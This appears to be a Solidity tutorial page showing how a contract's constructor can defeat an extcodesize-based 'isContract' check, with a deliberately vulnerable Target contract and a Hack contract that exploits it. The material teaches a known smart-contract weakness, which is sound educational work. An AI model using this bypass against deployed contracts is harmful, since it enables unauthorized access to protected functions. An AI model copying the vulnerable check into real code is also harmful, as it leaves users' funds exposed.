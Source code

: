 ```yaml
---
title: Bypass Contract Size Check
version: 0.8.10
description: An example of bypassing contract size check
---
```


### Vulnerability

If an address is a contract then the size of code stored at the address will be greater than 0 right?

Let's see how we can create a contract with code size returned by `extcodesize` equal to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Target {
    function isContract(address account) public view returns (bool) {
        // This method relies on extcodesize, which returns 0 for contracts in
        // construction, since the code is only stored at the end of the
        // constructor execution.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // Attempting to call Target.protected will fail,
    // Target block calls from contract
    function pwn(address _target) external {
        // This will fail
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // When contract is being created, code size (extcodesize) is 0.
    // This will bypass the isContract() check
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        // This will work
        Target(_target).protected();
    }
}

```
